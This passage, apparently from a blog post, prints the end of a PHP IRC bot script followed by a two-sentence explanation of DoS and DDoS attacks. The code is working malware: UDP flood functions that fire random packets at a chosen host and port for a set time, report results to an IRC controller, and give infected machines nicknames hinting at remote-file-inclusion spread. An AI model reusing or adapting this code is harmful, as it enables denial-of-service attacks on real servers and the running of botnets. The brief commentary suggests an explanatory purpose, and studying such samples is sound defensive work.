                $i++;
            }
            $env = $i * $packetsize;
            $env = $env / 1048576;
            $vel = $env / $time;
            $vel = round($vel);
            $env = round($env);
            $fag = "$udpmsg - Sent Total $leetprefixwhite$red $env Megabytes $leetsuffixwhite$red With A Speed Of $leetprefixwhite$red $vel MegaBytes/Second $leetsuffixwhite";
            $this-&gt;privmsg( $this-&gt;ffff_you( ),"$fag$fag2" );
            $this-&gt;ex('echo 1 &gt;&gt; cache.dat');
        }
        function udpflood4( $host, $packetsize, $time, $port )
        {
            $udpmsg = $this-&gt;messages['udpmsg'];
            $leetprefixwhite = $this-&gt;config['leetprefixwhite'];
            $leetsuffixwhite = $this-&gt;config['leetsuffixwhite'];
            $red = $this-&gt;config['yellow'];
            $blue = $this-&gt;config['yellow'];
            $this-&gt;privmsg( $this-&gt;ffff_you( ),"$udpmsg Started On $leetprefixwhite$red $host $leetsuffixwhite for $leetprefixwhite$red $time Seconds $leetsuffixwhite$red With $leetprefixwhite$red $packetsize Packets $leetsuffixwhite$red On port $leetprefixwhite$red $port $leetsuffixwhite" );
            $packet = "";
            for($i=0;$i&lt;$packetsize;$i++) { $packet .= chr(mt_rand(1,256)); }
            $timei = time();
            $i = 0;
            while(time()-$timei &lt; $time)
            {
                $fp=fsockopen("udp://".$host,$port,$e,$s,5);
                fwrite($fp,$packet);
                fclose($fp);
                $i++;
            }
            $env = $i * $packetsize;
            $env = $env / 1048576;
            $vel = $env / $time;
            $vel = round($vel);
            $env = round($env);
            $fag = "$udpmsg - Sent Total $leetprefixwhite$red $env Megabytes $leetsuffixwhite$red With A Speed Of $leetprefixwhite$red $vel MegaBytes/Second $leetsuffixwhite On Port $leetprefixwhite$red $port $leetsuffixwhite";
            $this-&gt;privmsg( $this-&gt;ffff_you( ),"$fag$fag2" );
            $this-&gt;ex('echo 1 &gt;&gt; cache.dat');
        }
        function send($msg)
        {
            fwrite($this-&gt;conn,"$msg\r\n");
        }
        function join($chan,$key=NULL)
        {
            $this-&gt;send("JOIN $chan $key");
        }
        function privmsg($to,$msg)
        {
            $this-&gt;send("PRIVMSG $to :$msg");
        }
        function notice($to,$msg)
        {
            $this-&gt;send("NOTICE $to :$msg");
        }
         function set_nick()
         {
            $prefix .= "[RFI|";
            $random_number = "";
            for( $i = 0; $i &lt; $this-&gt;config[ 'maxrand' ]; $i++ )
            {
                $random_number .= mt_rand( 0, 9 );
            }
            $this-&gt;nick = sprintf( $prefix.$this-&gt;config[ 'nickform' ], $random_number );
            $this-&gt;send("NICK ".$this-&gt;nick);
         }
         function busk_nick()
         {
            $prefix .= "[RooT|LinuX|";
            $random_number = "";
            for( $i = 0; $i &lt; $this-&gt;config[ 'maxrand' ]; $i++ )
            {
                $random_number .= mt_rand( 0, 9 );
            }
            $this-&gt;nick = sprintf( $prefix.$this-&gt;config[ 'nickform2' ], $random_number );
            $this-&gt;send("NICK ".$this-&gt;nick);
         }
         function nzm_nick()
         {
            $prefix .= "[USA|";
            $random_number = "";
            for( $i = 0; $i &lt; $this-&gt;config[ 'maxrand' ]; $i++ )
            {
                $random_number .= mt_rand( 0, 9 );
            }
            $ffffu = "$this-&gt;config[ 'prfix' ]";
            $this-&gt;nick = sprintf( $prefix.$this-&gt;config['prfix'], $random_number );
            $this-&gt;send("NICK ".$this-&gt;nick);
         }
        function parse_url_s( $url )
        {
            $URLpcs = ( parse_url( $url ) );
            $PathPcs = explode( "/", $URLpcs['path'] );
            $URLpcs['file'] = end( $PathPcs );
            unset( $PathPcs[ key( $PathPcs ) ] );
            $URLpcs['dir'] = implode("/",$PathPcs);
            $fileext = explode( '.', $URLpcs['file'] );
            if(count($fileext))
            {
                $URLpcs['file_ext'] = $fileext[ count( $fileext ) - 1 ];
            }
            return ($URLpcs);
        }
    }
    $bot = new Mike_Unix;
    $bot-&gt;start();
?>
{% endhighlight %}

A DoS attack is made by only one person (or computer), while a DDoS attack is made by two or more.  
Generally a denial of service attack involves sending many &#8211; essentially meaningless &#8211; requests to a server, so the server cannot respond to legitimate queries, either within a reasonable timeframe, or even not at all.

 [1]: http://en.wikipedia.org/wiki/Denial-of-service_attack "DDoS"